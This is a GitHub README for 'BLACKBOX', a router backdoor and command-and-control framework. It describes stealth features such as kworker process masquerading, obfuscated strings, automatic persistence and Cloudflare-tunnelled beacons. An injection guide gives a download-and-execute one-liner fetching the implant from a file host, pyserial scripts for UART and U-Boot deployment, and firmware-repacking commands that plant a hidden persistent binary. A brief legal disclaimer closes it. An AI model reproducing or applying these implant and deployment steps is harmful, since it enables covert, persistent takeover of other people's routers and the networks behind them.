

<p align="center">

</p>

<h1 align="center">BLACKBOX</h1>
<p align="center"><code>HTTPS-based Router Backdoor: shell access, zero infrastructure, single-binary deploy</code></p>

<p align="center">
  multi-client C2 &nbsp;|&nbsp; Cloudflare Tunnel &nbsp;|&nbsp; HTTPS &nbsp;|&nbsp; Shell Implant
</p>

---

## DESCRIPTION

**BLACKBOX** is a specialized C2 framework for establishing persistent shell
access on compromised routers and embedded devices. It focuses on **stealth**,
**zero-dependency deployment**, and **routing traffic through Cloudflare
tunnels** to mask the operator's infrastructure and keep the command and
control channel anonymous.

The implant is a single fully-static C++ binary (~500 KB) that runs on any
Linux distribution with **zero dependencies**: no libraries, no interpreters,
no runtime requirements, and no external services to configure. Deploy it on
routers running OpenWRT, DD-WRT, ARM-based devices, or any stripped-down
BusyBox environment. It is verified with `ldd` as *"not a dynamic executable"*,
meaning the binary is self-contained and can be dropped onto a target without
first installing anything on the device.

Communication flows over standard HTTPS through a **Cloudflare Argo tunnel**,
masking the operator's real IP behind Cloudflare's global infrastructure. The
implant polls the C2 at configurable intervals and blends into normal web
traffic, which makes its beacons difficult to distinguish from ordinary HTTPS
requests. All traffic is encrypted end-to-end with **TLS 1.2** (via the embedded
BearSSL library), so no command, response, or output ever travels in plaintext.

A **dead-drop relay** decouples the implant from any hardcoded server address,
so the operator does not need a fixed VPS, open ports, or static DNS records.
The current tunnel URL is written to a paste between `@@` markers and the
implant parses it directly. Because the URL changes on every server restart,
infrastructure takedowns or IP rotations do not break the connection. The
implant follows the new address automatically, recovering without manual
re-pairing or re-flashing of the device.

### Key Features

- **Router-only execution**: refuses to run on desktops, VMs, or servers (detects router firmware, flash partitions, bridge interfaces, router daemons)
- **Self-persistence**: auto-copies itself to `/usr/sbin/.kworker` and adds boot entries to rc.local, init.d, or crontab on first run
- **Zero infrastructure**: no port forwarding, no firewall rules, no VPS
- **Static binary**: runs on any Linux kernel 3.x+, ARM/MIPS cross-compilation supported
- **Compile-time stealth**: strings XOR-obfuscated, process masquerades as `[kworker/0:1]`
- **Dead-drop relay**: no hardcoded server addresses. C2 URL changes every restart
- **Resilience**: relay-fetch exponential backoff (up to 60s), fixed poll interval, SIGTERM/SIGINT handler
- **Multiple relay configs**: manage multiple C2 channels with independent beacon settings
- **Beacon modes**: fixed interval or randomized (min/max range with jitter)

---

## Architecture



---

## Platform Support

| Target                                      | Status                                   |
|---------------------------------------------|------------------------------------------|
| ARM 32-bit (routers, RPi 2/3)               | Cross-compile (`arm-linux-gnueabihf`) |
| ARM 64-bit (RPi 4/5, Graviton)              | Cross-compile (`aarch64-linux-gnu`)   |
| MIPS (OpenWRT, DD-WRT)                      | Via OpenWRT SDK                       |
| x86_64 (desktops, servers)                  | Blocked (router-only guard)           |

---

| Tool Screenshots |
|-------|
|  |
|  |
|  |
|  |

---

## Shell Commands

| Command               | Description                                |
|-----------------------|--------------------------------------------|
| `<any shell command>` | Execute arbitrary shell commands on target |
| `upload <file> <dest>`| Upload file from operator to target        |
| `download <path>`     | Download file from target to operator      |
| `execute <script.sh>` | Execute local sh script on target          |
| `cd <path>`           | Change target working directory            |
| `pwd`                 | Print target current directory             |
| `help` / `?`          | Show command list                          |
| `back` / `exit` / `0` | Return to dashboard                        |
| `info`                | Display target system info                 |
| `clear` / `cls`       | Clear screen                               |

---

## Menu

- `[1] BUILD`: Compile implant for any target (interactive arch table)
- `[2] TERMINAL`: Start tunnel, view dashboard, interact with targets
- `[3] SERVER`: Manage relay configs (multiple dead-drop channels with independent beacon settings)
- `[0] EXIT`

---

## Output Structure

```
downloads/
  target-hostname_sessionid/
    shell/            ← stdout outputs (txt)
    downloads/        ← downloaded files
    uploads/          ← uploaded files
    executed/         ← script execution results
```
---

## Injection Guide

Once you have built the implant binary for the target architecture, you need
to inject it into the router for persistent shell access. There are two main
approaches:

### 1. Live Router Injection (post-exploitation)

If you already have shell access to a compromised router (via SSH, telnet, or
an existing exploit), deploy the implant. **Persistence is automatic**. The
implant copies itself to `/usr/sbin/.kworker` and adds boot entries on first run.

#### 1.1 One-liner download & execute (recommended)

The `[1] BUILD` menu can upload the payload to a file host and print a
one-liner that downloads and runs it on the target in a single command:

```bash
# Generated automatically after a successful build (answer 'y' to the prompt).
# It uploads to catbox.moe and prints a command like:
curl -sL https://files.catbox.moe/vhdicz -o i && chmod +x i && ./i
```

Pipe that one-liner into any existing remote shell (SSH/telnet) to download,
write, and execute the implant in one step. Persistence then happens
automatically on first run.

#### 1.2 Manual upload (scp)

```bash
# Upload the payload to the router (example via scp)
scp payload-arm root@192.168.1.1:/tmp/.kworker

# SSH in and run it once. It self-persists
ssh root@192.168.1.1
chmod +x /tmp/.kworker
/tmp/.kworker &
```

The implant will:
1. Copy itself to `/usr/sbin/.kworker` (and `/overlay/usr/sbin/.kworker` on OpenWRT)
2. Add startup entry to `/etc/rc.local` (or `/etc/init.d/kworker`, or crontab)
3. Begin beaconing to the C2 server

No manual persistence steps needed. The binary handles it on first execution.

### 2. Live UART Injection (USB-to-TTL)

For physical access to a router with a UART header exposed, you can deploy the
implant over a serial console using a USB-to-TTL adapter (FTDI / CH340 /
CP2102). The adapter only provides a **console**. It is not a wireless code
execution vector by itself. This automates the same post-exploitation steps
as SSH, but over the serial wire.

| Live UART Injection (USB-to-TTL) Screenshots |
|-------|
|  |
|  |

#### 2.1 Console shell injection

```bash
# Install the serial helper
sudo pip3 install pyserial

# Detect the adapter (usually /dev/ttyUSB0 or /dev/ttyACM0)
ls /dev/ttyUSB* /dev/ttyACM*
```

```python
# deploy_uart.py (example)
import serial, base64, time

PORT = "/dev/ttyUSB0"
BAUD = 115200
PAYLOAD = "payload-arm"

ser = serial.Serial(PORT, BAUD, timeout=1)
ser.write(b"\r\n")
time.sleep(0.5)

data = open(PAYLOAD, "rb").read()
b64 = base64.b64encode(data).decode()

# Write chunked base64 to /tmp, then decode + run (triggers self-persistence)
ser.write(b"cat > /tmp/.kb64 << 'EOF'\n")
for i in range(0, len(b64), 512):
    ser.write((b64[i:i+512] + "\n").encode())
ser.write(b"EOF\nbase64 -d /tmp/.kb64 > /tmp/.kworker\n")
ser.write(b"chmod +x /tmp/.kworker && /tmp/.kworker &\n")
```

#### 2.2 Bootloader (U-Boot) injection

Interrupt the bootloader, load the implant into RAM over serial, then run it
(requires an unlocked, non-password-protected bootloader and a
position-independent or correctly-based payload).

```python
# deploy_uboot.py (example)
import serial, time

ser = serial.Serial("/dev/ttyUSB0", 115200, timeout=1)
# Interrupt U-Boot early in boot
for _ in range(50):
    ser.write(b"\x03")            # Ctrl-C during the bootloader countdown
    time.sleep(0.02)
ser.write(b"loady 0x80000000\n")   # wait for y-modem, then send payload
# use `sz --ymodem payload-arm` from the host, or a pyserial y-modem transfer
ser.write(b"go 0x80000000\n")
```

#### 2.3 Z-modem transfer (reliable on targets with `rz`/`lrz`)

```bash
# target: run rz, then host sends with sz
sz --zmodem payload-arm
```

> Requires `lrzsz` on the target (present on many OpenWRT images).

#### UART considerations

- **Physical access required**. This is a hardware attack path, not remote.
- **Voltage**: most routers expose 3.3V UART; do not use a 5V adapter level
  without a level shifter.
- **Baud**: 115200 is most common, but 57600/38400 also occur. Auto-detect or
  probe if the console is garbled.
- **Locked bootloaders**: a password-protected U-Boot blocks the bootloader
  injection path (use the running-shell method instead).

### 3. Firmware Image Injection (offline)


For routers where you have access to the firmware image but not a live shell,
inject the implant into the extracted filesystem before re-flashing.

| Firmware Image Injection Screenshots |
|-------|
|  |
|  |
|  |
|  |
|  |
|  |
|  |
|  |
|  |

#### Extract & Modify SquashFS Firmware

```bash
# Install tools
sudo apt install binwalk squashfs-tools

# Extract the firmware
binwalk -e firmware.bin
cd _firmware.bin.extracted

# Identify the squashfs filesystem (e.g., 1C0000.squashfs)
# Extract it
unsquashfs 1C0000.squashfs
cd squashfs-root

# Copy the cross-compiled implant into the filesystem
cp /path/to/payload-arm usr/sbin/.kworker
chmod +x usr/sbin/.kworker

# Add persistence: edit rc.local or crontab inside the extracted rootfs
echo "/usr/sbin/.kworker &" >> etc/rc.local

# Repack the squashfs
cd ..
mksquashfs squashfs-root new-rootfs.squashfs -comp xz -noappend

# Replace the old squashfs in the firmware and repack
# (use dd or firmware-mod-kit for this step)
```

#### Using Firmware Mod Kit (FMK)

```bash
git clone https://github.com/rampageX/firmware-mod-kit.git
cd firmware-mod-kit

# Extract
./extract-firmware.sh firmware.bin

# Inject the implant
cp /path/to/payload-arm fmk/rootfs/usr/sbin/.kworker
chmod +x fmk/rootfs/usr/sbin/.kworker
echo "/usr/sbin/.kworker &" >> fmk/rootfs/etc/rc.local

# Repack
./build-firmware.sh
# Flashed firmware is at fmk/new-firmware.bin
```

#### Important Considerations

- **Architecture must match**: build for the exact CPU of the target router
  (ARMv5, ARMv7, MIPS big-endian, MIPS little-endian, etc.)
- **Space constraints**: routers often have limited flash; the static binary
  is ~650 KB.
- **Read-only filesystems**: many routers use squashfs (read-only) with an
  overlay. Inject into the overlay partition (`/overlay`) or the jffs2
  partition for persistence across factory resets.
- **Checksum validation**: some stock firmwares verify checksums on boot.
  You may need to patch or disable the verification routine, or use a
  manufacturer backdoor/flashing mode.

---

## Installation

```bash
git clone https://github.com/0xbitx/DEDSEC_BLACKBOX.git
cd DEDSEC_BLACKBOX
sudo bash setup.sh
sudo pip3 install requests tabulate --break
chmod +x dedsec_blackbox
sudo ./dedsec_blackbox
```

---

## Tested On

- Kali Linux
- Parrot OS
- Ubuntu
- ARM routers (OpenWRT)
- Raspberry Pi (ARMv7, aarch64)

---

## Legal Disclaimer

This tool is intended for **educational and security research purposes only**.
Unauthorized access to computer systems is illegal. The author is not
responsible for any misuse of this tool. Only use on systems you own or have
explicit permission to test.
